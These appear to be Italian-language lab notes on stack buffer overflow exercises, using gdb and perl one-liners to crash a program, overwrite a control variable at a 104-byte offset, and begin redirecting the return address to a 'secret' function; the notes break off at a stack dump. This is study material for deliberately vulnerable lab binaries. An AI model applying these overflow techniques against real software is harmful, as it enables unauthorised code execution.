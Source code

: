 ```
   0x000011c8 <+43>:    call   0x1050 <puts@plt>
   0x000011cd <+48>:    add    $0x10,%esp
   0x000011d0 <+51>:    nop
   0x000011d1 <+52>:    mov    -0x4(%ebp),%ebx
   0x000011d4 <+55>:    leave
   0x000011d5 <+56>:    ret

```

Eseguo il programma da gdb con il comando ```run [parametro]```. Esce normalmente. 

> nota, per generare lettere ripetute conviene utilizzare ``` perl -e 'print "A"x150, BBB' ```

Lo passiamo come parametro nella run da GDB

```(gdb) run $(perl -e 'print "A"x150, BBB')```

Risultato

```sh
Program received signal SIGSEGV, Segmentation fault.
0x41414141 in ?? ()         # Indirizzo fuori dallo spazio dedicato al processo
```

## Secondo esercizio: lab_exercises/writevar

Il main invoca come funzione vulnerabile una funzione che accetta
- puntatore al primo argomento
- alloca un buffer di 100 caratteri
- copia **senza controllare** il parametro dentro al buffer

Eseguendo ```./es $(perl -e 'print "A"x99')``` l'output è

```sh
control must be: 0x42434445 now is 3039
SEC{is_it_the_flag?}
```

Quando lo eseguo con un numero più grande, come ```Ax150```, l'output è  

```sh
control must be: 0x42434445 now is 41414141 # -> Abbiamo sovrascritto il valore della variabile control con 4141414, che in ASCII sarebbe "AAAA"

Program received signal SIGSEGV, Segmentation fault.
0xf7e14156 in ?? () from /lib32/libc.so.6
```

Il buffer ricordiamo che è grande **100**, quindi procedo con ricerca **BINARIA**, dimezzando di volta in volta in buffer fin quando non sovrascrivo dei bit della variabile control.

```con Ax104 ``` , ovvero 104 valori a caso per l'overflow, e posso iniettare un numero che voglio nella variabile control. Mettendo EDCB in cui ascii era quello richiesto, raggiungiamo la funzione 

## Terzo esercizio: lab_exercises/secret_function

- Dobbiamo scoprire l'indirizzo della funzione secret: utilizzo ```info function``` su gdb.
    - Scopro che è ```0x565561ad  secret```
- Dobbiamo scoprire come riscrivere l’indirizzo di ritorno:
    - dopo aver fatto crashare il programma con un input molto grande ```run $(perl -e 'print "A"x16,"BBBB"')```, applico il il comando ```x/200xw $esp``` 
    . L'output sarà

    ```
    0xffffc9cc:     0x5655636b      0xffffc9ec      0xffffccf7      0x00000000
    0xffffc9dc:     0x56556330      0x00000000      0x00000000      0xffffffff
    0xffffc9ec:     0x41414141      0x41414141      0x41414141      0x41414141
    0xffffc9fc:     0x41414141      0x41414141      0x41414141      0x41414141
    0xffffca0c:     0x41414141      0x41414141      0x41414141      0x41414141
    [...]
```